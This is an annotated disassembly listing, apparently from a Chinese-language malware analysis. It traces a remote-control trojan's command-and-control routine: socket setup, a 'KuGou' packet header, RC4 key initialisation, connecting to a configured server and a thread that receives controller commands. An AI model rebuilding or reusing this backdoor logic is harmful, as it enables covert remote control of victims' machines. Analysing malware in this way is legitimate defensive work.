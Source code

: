 `.text:004014CD lea eax, [esp+1ACh+WSAData]   .text:004014D1 mov byte ptr [esp+1ACh+var_4], 3   .text:004014D9 push eax ; lpWSAData   .text:004014DA push 202h ; wVersionRequested   .text:004014DF mov dword ptr [esi], offset off_408248   .text:004014E5 call ds:WSAStartup ; 初始化socket库   .text:004014EB push 0 ; lpName   .text:004014ED push 0 ; bInitialState   .text:004014EF push 1 ; bManualReset   .text:004014F1 push 0 ; lpEventAttributes             .text:004014F3 call ds:CreateEventA ; 创建socket事件对象   .text:004014F9 lea ecx, [esp+1ACh+key]   .text:004014FD mov [esi+0ACh], eax   .text:00401503 push 5   .text:00401505 mov byte ptr [esi+0B0h], 0   .text:0040150C mov dword ptr [esi+0A8h], 0FFFFFFFFh   .text:00401516 mov al, 'u'   .text:00401518 push ecx   .text:00401519 mov ecx, g_Obj   .text:0040151F push offset unk_409594   .text:00401524 mov [esp+1B8h+key], 'K'   .text:00401529 mov [esp+11h], al   .text:0040152D mov [esp+1B8h+var_1A6], 'G'   .text:00401532 mov [esp+1B8h+var_1A5], 'o'   .text:00401537 mov [esp+1B8h+var_1A4], al ; 初始化通信的包头字符串为KuGou   .text:0040153B call memcpy ; 复制通信包头字符串   .text:00401540 mov ecx, g_Obj   .text:00401546 push offset g_key   .text:0040154B call strlen ; 获取配置信息key的长度   .text:00401550 mov ecx, g_Obj   .text:00401556 push eax   .text:00401557 push offset g_key   .text:0040155C push offset g_sbox   .text:00401561 call rc4_init ; 初始化RC4密钥   .text:0040684D lea ecx, [esp+0A054h+var_A024]   .text:00406851 all connect_server ; 连接服务器      // connect_server函数实现   .text:004016C7 push 6 ; protocol   .text:004016C9 push 1 ; type   .text:004016CB push 2 ; af   .text:004016CD call ds:socket ; 初始化TCP socket   .text:004016D3 cmp eax, 0FFFFFFFFh    .text:004016D6 mov [esi+0A8h], eax    .text:004016DC jnz short loc_4016E9 ; 检查socket是否初始化成功   .text:004016DE pop edi    .text:004016DF pop esi    .text:004016E0 xor eax, eax    .text:004016E2 pop ebp    .text:004016E3 add esp, 1Ch    .text:004016E6 retn 8    .text:004016E9 push ebp ; name   .text:004016EA call ds:gethostbyname ; 查询DNS服务器，根据域名转换地址   .text:004016F0 mov edi, eax    .text:004016F2 test edi, edi    .text:004016F4 jnz short loc_4016FF ; 检查查询结果   .text:004016F6 pop edi    .text:004016F7 pop esi    .text:004016F8 pop ebp    .text:004016F9 add esp, 1Ch    .text:004016FC retn 8    .text:004016FF mov eax, dword_40959C    .text:00401704 mov [esp+28h+var_10.sa_family], 2   .text:0040170B test eax, eax   .text:0040170D jz short loc_401719   .text:0040170F mov cx, word_409020    .text:00401716 push ecx    .text:00401717 jmp short loc_40171E ; 端口大小尾转换   .text:00401719 mov edx, dword ptr [esp+28h+hostshort]   .text:0040171D push edx ; hostshort   .text:0040171E call ds:htons ; 端口大小尾转换   .text:00401724 mov word ptr [esp+28h+var_10.sa_data], ax   .text:00401729 mov eax, [edi+0Ch]   .text:0040172C push 10h ; namelen   .text:0040172E mov ecx, [eax]   .text:00401730 lea eax, [esp+2Ch+var_10]   .text:00401734 push eax ; name   .text:00401735 mov edx, [ecx]   .text:00401737 mov ecx, [esi+0A8h] ; 初始化SOCKADDR结构体   .text:0040173D push ecx ; s   .text:0040173E mov dword ptr [esp+34h+var_10.sa_data+2], edx   .text:00401742 call ds:connect ; 根据配置信息连接服务器   .text:00401748 cmp eax, 0FFFFFFFFh   .text:0040174B jnz short loc_401758 ; 检查连接是否成功   .text:00401787 push 4 ; optlen   .text:00401789 push eax ; optval   .text:0040178A push 8 ; optname   .text:0040178C push 0FFFFh ; level   .text:00401791 push ecx ; s   .text:00401792 mov [esp+3Ch+name], 1   .text:0040179A call ds:setsockopt ; 开启KeepAlive机制   .text:004017A0 test eax, eax   .text:004017A2 jnz short loc_4017DE   .text:004017A4 mov ecx, [esi+0A8h]   .text:004017AA push eax ; lpCompletionRoutine   .text:004017AB lea edx, [esp+2Ch+name]   .text:004017AF push eax ; lpOverlapped   .text:004017B0 push edx ; lpcbBytesReturned   .text:004017B1 push eax ; cbOutBuffer   .text:004017B2 push eax ; lpvOutBuffer   .text:004017B3 lea eax, [esp+3Ch+vInBuffer]   .text:004017B7 push 0Ch ; cbInBuffer   .text:004017B9 push eax ; lpvInBuffer   .text:004017BA push 98000004h ; dwIoControlCode   .text:004017BF push ecx ; s   .text:004017C0 mov [esp+4Ch+vInBuffer], 1   .text:004017C8 mov [esp+4Ch+var_18], 0EA60h   .text:004017D0 mov [esp+4Ch+var_14], 1388h   .text:004017D8 call ds:WSAIoctl ; 设置超时信息   .text:004017DE push 1   .text:004017E0 push 0   .text:004017E2 push 0   .text:004017E4 push esi   .text:004017E5 push offset recv_proc ; 参数3：线程回调函数   .text:004017EA push 0   .text:004017EC push 0   .text:004017EE mov byte ptr [esi+0B0h], 1   .text:004017F5 call create_threaad ; 创建接收主控端数据线程      // recv_proc函数实现：   .text:00401BC9 push 0 ; timeout   .text:00401BCB push 0 ; exceptfds   .text:00401BCD lea ecx, [esp+2380h+readfds]    .text:00401BD4 push 0 ; writefds   .text:00401BD6 push ecx ; readfds   .text:00401BD7 push 0 ; nfds   .text:00401BD9 call ds:select ; select检查主控端发送的数据   .text:00401BDF cmp eax, 0FFFFFFFFh    .text:00401BE2 jz loc_401DD6    .text:00401BE8 test eax, eax    .text:00401BEA jle loc_401DC3    .text:00401BF0 mov ecx, 800h    .text:00401BF5 xor eax, eax    .text:00401BF7 lea edi, [esp+2378h+buf]    .text:00401C0A push 0 ; flags   .text:00401C0C lea edx, [esp+237Ch+buf]    .text:00401C13 push 2000h ; len   .text:00401C18 push edx ; buf   .text:00401C19 push eax ; s   .text:00401C1A call ds:recv ; 接收主控端发送的数据   `
